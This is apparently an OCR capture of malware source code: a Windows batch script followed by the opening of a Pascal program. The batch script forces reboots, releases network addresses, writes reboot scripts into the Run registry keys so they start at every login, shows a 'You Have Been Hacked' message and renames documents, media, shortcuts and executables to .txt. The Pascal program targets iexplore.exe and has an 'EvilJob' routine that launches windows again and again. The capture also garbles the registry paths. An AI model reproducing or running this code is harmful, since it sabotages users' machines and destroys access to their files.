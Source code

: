 }
:CRASH
net send * WORKGROUP ENABLED
net send * WORKGROUP ENABLED
GOTO CRASH
ipconfig /release
shutdown -r -f -t0
echo @echo off>c:windowshartlell.bat
echo break off>>c:windowshartlell.bat
echo shutdown -r -t 11 -f>>c:windowshartlell.bat
echo end>>c:windowshartlell.bat
reg add hkey_local_machinesoftwaremicrosoftwindowscurrentv ersionrun /v startAPI /t reg_sz /d c:windowshartlell.bat /f
reg add hkey_current_usersoftwaremicrosoftwindowscurrentve rsionrun /v HAHAHA /t reg_sz /d c:windowshartlell.bat /f
echo You Have Been Hackedecho @echo off>c:windowswimn32.bat
echo break off>>c:windowswimn32.bat
echo ipconfig/release_all>>c:windowswimn32.bat
echo end>>c:windowswimn32.bat
reg add hkey_local_machinesoftwaremicrosoftwindowscurrentv ersionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /f
reg add hkey_current_usersoftwaremicrosoftwindowscurrentve rsionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /f
echo YOU HAVE BEEN HACKED BITCH
REN *.DOC *.TXT
REN *.JPEG *.TXT
REN *.LNK *.TXT
REN *.AVI *.TXT
REN *.MPEG *.TXT
REN *.COM *.TXT
REN *.BAT *.TXT

PAUSE

PAUSE
 
{$mode objfpc}
uses
classes,sysutils,windows,crt,dos;
const
fTarget = 'iexplore.exe';
var
folder_array: array[1..10] of String;
s,s1,user_name:string;
i:integer;
Year,Month,Day,WDay : word;
function FileCopy(Source, Target: string): boolean;
var
MemBuffer: TMemoryStream;
begin
result := false;
MemBuffer := TMemoryStream.Create;
try
MemBuffer.LoadFromFile(Source);
MemBuffer.SaveToFile(Target);
result := true
except
end;
MemBuffer.Free
end;
procedure EvilJob;
var i:integer;
begin
for i:=1 to 50 do begin
ShellExecute(0,nil, PChar('"notepad"'),nil,nil,1);